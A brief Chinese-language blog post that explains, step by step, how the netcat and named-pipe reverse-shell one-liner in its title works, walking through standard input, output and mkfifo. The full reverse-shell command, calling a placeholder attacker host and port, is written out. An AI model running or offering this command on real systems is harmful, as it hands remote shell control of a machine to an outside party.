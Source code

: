 ```yaml
---
title: 怎么理解mkfifo /tmp/p; /bin/sh 0</tmp/p | nc $attacker $port 1>/tmp/p
layout: post
---
```


为了方便记忆，个人是这么理解的。。

1. 0为标准输入，1为标准输出

2. mkfifo创建named pipe名为p

3. 标准输入的结果给sh （此时为空，所以要｜进行管道来取得输入）

4. 连上攻击者后攻击者的输入为标注输出，把输出定向到/tmp/p，所以1/tmp/p ,

5. 循环以上～
